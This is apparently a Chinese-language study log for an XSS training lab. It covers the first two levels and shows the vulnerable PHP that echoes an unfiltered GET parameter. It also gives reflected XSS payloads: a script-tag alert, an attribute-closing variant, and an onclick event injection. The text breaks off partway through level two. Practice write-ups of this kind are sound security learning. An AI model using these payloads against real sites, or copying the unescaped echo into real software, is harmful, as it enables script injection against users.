 # xss lab学习记录

### 第一关

在url中的name后面随便输入，输入的内容会在页面回显。

<h2 align="center">欢迎用户test</h2>

显示内容是在html标签之间，采用标签注入

name=<script>alert(1)</script>

出现弹窗

完成的不错！

查看后台源码可知为GET型，只通过$_GET[“name”]，获取name的值，并没有过滤直接echo输出

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```

点击确定以后就进入了第二关

### 第二关

在搜索框中随便输入，输入的内容还是会回显在页面上

查看源代码

<h2 align="center">没有找到和2相关的结果.</h2>

输入第一关的

<script>alert(1)</script>

<h2 align="center">没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2>

但是这个地方不行

继续看

<input type="submit" name="submit" value="搜索">

在表单中的value属性内，要先闭合input标签，然后再注入代码

"><script>alert(1)</script>

还有另一种方法

闭合value属性，在input标签内加入事件属性

" onclick="alert(11)

onclick 事件会在元素被点击时发生。

看看源代码

